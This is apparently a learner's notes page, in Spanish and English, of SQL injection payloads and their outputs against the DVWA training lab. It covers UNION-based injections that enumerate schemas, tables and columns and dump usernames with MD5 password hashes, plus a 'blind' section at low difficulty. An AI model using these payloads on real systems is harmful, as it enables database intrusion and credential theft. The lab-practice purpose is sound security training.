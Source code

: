 ```bash
I> ' union select '<table border=1 style="width: 100%;  background-color: #f1f1c1;">',group_concat('<tr><th>',user,'</th><th>',password,'</th></tr>') from users#
O>	Lo de arriba pero con HTML de TABLA

Lista DB
I> ' union select distinct table_schema,null from information_schema.tables#
O>	First name: information_schema
	First name: cdcol
	First name: dvwa
	First name: mysql
	First name: phpmyadmin


I> ' union select 1,table_name from information_schema.tables where table_schema='cdcol'##
O> Surname: cds

I> ' union select 1,column_name from information_schema.columns where table_name='cds'##
O>	Surname: titel
	Surname: interpret
	Surname: jahr
	Surname: id

I> ' union select database(), group_concat('<br>',titel,':',interpret,':',jahr,':',id) from cdcol.cds# 
O> 	Beauty:Ryuichi Sakamoto:1990:1,
	Goodbye Country (Hello Nightclub):Groove Armada:2001:4,
	Glee:Bran Van 3000:1997:5
```

# SQLI BLIND

## LOW

```bash
I> 1'  union select database(),2 and '1'='1
0> First name: dvwa

I> 1'  union select version(),database() and '1'='1

I> 1' and 1=1 union select null,group_concat(table_name) from information_schema.tables where table_schema='dvwa'# 
O> Surname: guestbook,users

I> 1' and 1=1 union select null,group_concat(column_name) from information_schema.columns where table_name='users'# 
O> Surname: user_id,first_name,last_name,user,password,avatar

I> 1' and 1=1 union select null,group_concat(user,':',password,'</br>') from dvwa.users# 
O>	Surname: admin:5f4dcc3b5aa765d61d8327deb882cf99
	,gordonb:e99a18c428cb38d5f260853678922e03
	,1337:8d3533d75ae2c3966d7e0d4fcc69216b
	,pablo:0d107d09f5bbe40cade3de5c71e9e9b7
	,smithy:5f4dcc3b5aa765d61d8327deb882cf99
```
